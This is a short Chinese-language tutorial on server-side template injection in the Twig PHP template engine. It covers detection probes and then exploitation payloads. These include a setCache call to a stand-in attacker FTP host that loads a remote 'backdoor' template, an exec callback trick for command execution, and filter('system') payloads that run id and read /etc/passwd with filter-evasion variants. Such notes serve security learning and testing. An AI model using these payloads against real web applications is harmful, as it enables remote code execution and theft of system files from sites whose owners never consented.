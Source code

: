 # Twig

Twig是来自于Symfony的模板引擎，它非常易于安装和使用。它的操作有点像Mustache和liquid。

相比于 Smarty ,Twig 无法调用静态方法，并且所有函数的返回值都转换为字符串，也就是我们不能使用 `self::` 调用静态变量了

# 检测方法

我在网上看到两种方式

第一种：

```
{{7*7}}如果输出49则为Twig，如果是7777777则为jinja模板
```

第二种：

```
Mic{#comment#}{{1*2}}x{{2*3}}
如果是Twig引擎，则结果显示Mic2x6
如果是其他引擎则显示Mic{#comment#}{{1*2}}x{{2*3}}或者出现其他错误反正不是上面那个结果就是了
```

# 利用

Twig 给我们提供了一个 `_self`, 虽然 `_self` 本身没有什么有用的方法，但是却有一个 env

env是指属性Twig_Environment对象，Twig_Environment对象有一个 setCache方法可用于更改Twig尝试加载和执行编译模板（PHP文件）的位置

因此，明显的攻击是通过将缓存位置设置为远程服务器来引入远程文件包含漏洞：

```
{{_self.env.setCache("ftp://attacker.net:2121")}}
{{_self.env.loadTemplate("backdoor")}}
```

把exec() 作为回调函数传进去就能实现命令执行了

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

当然还有其他paylaod

```
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
```



# 参考文章

[Twig官方文档](https://twig.symfony.com/doc/2.x/templates.html)

[一篇文章带你理解漏洞之 SSTI 漏洞](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/#2-Twig)
